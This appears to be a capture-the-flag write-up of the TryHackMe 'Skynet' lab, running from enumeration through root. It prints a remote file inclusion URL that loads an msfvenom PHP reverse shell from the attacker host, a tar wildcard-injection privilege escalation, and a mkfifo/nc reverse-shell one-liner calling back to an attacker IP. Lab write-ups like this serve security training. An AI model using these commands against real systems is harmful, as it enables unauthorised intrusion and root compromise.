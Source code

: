 ```yaml
---
title: TryHackMe Skynet
date: 2024-12-30 0:0:0 -0500
categories: CTFs
tags: tryhackme
---
```



![](/assets/img/skynet/skynet.jpeg){: width="700" height="400" }


# Information Gathering


We are given:

> Deploy and compromise the vulnerable machine!

Additonally, we are given the target IP `10.10.13.83`. Our objectives are as follows:

1. Obtain Miles' email password,
2. Identify the hidden directory,
3. Recall the type of vulnerability wherein one includes a remote file for malicious purposes,
4. Obtain the user flag, and
5. Obtain the root flag.


# Enumeration
We run an nmap scan with `nmap -sS -T5 -sC -sV 10.10.13.83` and obtain the following
```bash
Nmap scan report for 10.10.13.83
Host is up (0.097s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp    open     http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp   open     pop3         Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL AUTH-RESP-CODE SASL RESP-CODES TOP
139/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open     imap         Dovecot imapd
|_imap-capabilities: IMAP4rev1 more SASL-IR post-login have IDLE capabilities listed 
LITERAL+ Pre-login OK LOGINDISABLEDA0001 ENABLE ID LOGIN-REFERRALS
445/tcp   open     netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
646/tcp   filtered ldp
1023/tcp  filtered netvenuechat
1042/tcp  filtered afrog
3580/tcp  filtered nati-svrloc
3905/tcp  filtered mupdate
24444/tcp filtered unknown
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h59m54s, deviation: 3h27m50s, median: -5s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-12-30T17:58:47
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-12-30T11:58:47-06:00

Nmap done: 1 IP address (1 host up) scanned in 24.43 seconds
```

We notice SAMBA running on port `445/TCP` and enumerate it using `nmap --script samba-enum-shares.nse -p 445 10.10.13.83`.
This reveals

```bash
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.13.83\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\anonymous:
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\milesdyson:
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.13.83\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```
We notice that we have read and write access on `\\10.10.13.83\anonymous`. Moreover, 
it appears that Miles' personal files are accessible at `\\10.10.13.83\milesdyson`. However, this share is inaccessible without credentials.

On the `anonymous` share, we find a file `attention.txt` containing

```
A recent system malfunction has caused various passwords to be changed. All skynet
employees are required to change their password after seeing this.
-Miles Dyson
```

Additionally, we obtain some log files, which appear to be the history of the password resets mentioned in `attention.txt`.


Afterward, we move on to the web server at port `80/TCP` and fuzz for directories using

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/FUZZ -ic
```

This reveals the directory `/squirrelmail`, allowing us to login into Miles' email account. The combination
`MilesDyson:<MOSTRECENTPASSFROMLOGS>` works.

In Miles' inbox, we find the following message

![](/assets/img/skynet/email.png)

This password allows us to authenticate to Miles' SMB share, where we find the file `notes/important.txt`. The
file reads
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
This suggests that there is a directory named `/45kra24zxs28v3yd`. Navigating to `http://10.10.13.83/45kra24zxs28v3yd/` reveals Miles' personal page. The `notes/important.txt` file suggests that there is a login page available, so
we fuzz using 

```bash 
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/45kra24zxs28v3yd/FUZZ -ic
```

Consequently, we find a login form at `/45kra24zxs28v3yd/administrator/`.


# Exploitation
After some research, we identify an exploit compatible with this CMS at [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971).

To use this exploit, we first generate a php reverse shell with the command `msfvenom -p php/reverse_php LHOST=10.6.4.176 -o shell.php`. Then, we serve this file using `python3 -m http.server` and start a netcat listener with
`ncat -lvnp 4444`. Finally, we visit the URL 

```
http://10.10.13.83/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?
urlConfig=http://10.6.4.176:8000/shell.php
``` 
and receive a shell as `www-data`. We then obtain the user flag:

![](/assets/img/skynet/user.txt.png)

# Post-Exploitation
Checking for cron jobs, we execute the command `cat /etc/crontab`, which returns

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
...
```

The first job seems atypical. At `/home/milesdyson/backups/backups.sh`, we find

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We use wildcard injection to exploit this cron job: first, we `cd /var/www/html`. Then, we run `echo "" > '--checkpoint=1`
and
```bash
echo "" > '--checkpoint-action=exec=bash evil.sh'
``` 

Lastly, we write a reverse shell `evil.sh` using

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.4.176 1234 > /tmp/f" 
> evil.sh
```

After setting up a netcat listener with the command `ncat -lvnp 1234`,
we receive a shell as `root`.

We then obtain the root flag:

![](/assets/img/skynet/root.txt.png)



